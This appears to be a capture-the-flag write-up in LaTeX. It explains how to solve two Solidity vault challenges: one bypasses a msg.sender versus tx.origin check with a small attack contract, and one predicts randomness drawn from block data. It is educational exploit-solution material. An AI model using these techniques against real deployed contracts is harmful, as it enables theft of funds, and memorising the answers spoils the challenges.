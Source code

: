\documentclass[12pt]{article}
\begin{document}
\subsection*{Vault03: Origins}

To breach \texttt{Vault03}, you need to bypass the requirement that \texttt{msg.sender} must not be equal to \texttt{tx.origin}. This means the function must be called from a smart contract rather than directly from an externally owned account (EOA). 

Deploy the \texttt{Vault03Attack} contract, passing the vault's address as a parameter. Then, call the \texttt{attack} function from the attack contract, which in turn calls \texttt{breachVault()}. Since the attack contract acts as an intermediary, \texttt{msg.sender} will be the attack contract, while \texttt{tx.origin} remains the player's address, satisfying the vault's condition. 

\begin{lstlisting}[language=Solidity]
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IVault03 {
    function breachVault() external returns (bool);
}

contract Vault03Attack {
    IVault03 public vault;

    constructor(address _vaultAddress) {
        vault = IVault03(_vaultAddress);
    }

    function attack() external returns (bool) {
        return vault.breachVault(); // msg.sender != tx.origin
    }
}
\end{lstlisting}

\noindent
This successfully updates \texttt{lastSolver} to the player's address, completing the challenge.

\subsection*{Vault04: Pseudo-Random Trap}

To breach \texttt{Vault04}, you need to provide a correct guess computed using  \texttt{block.timestamp} and \texttt{blockhash(block.number - 1)}. Since both values are accessible during the same transaction, you can compute the correct guess on-chain and submit it immediately. Deploy the \texttt{Vault04Attack} contract, passing the vault's address as a parameter. Then, call the \texttt{attack} function from the attack contract, which computes the guess and calls \texttt{breachVault()} with the correct value.
\end{document}
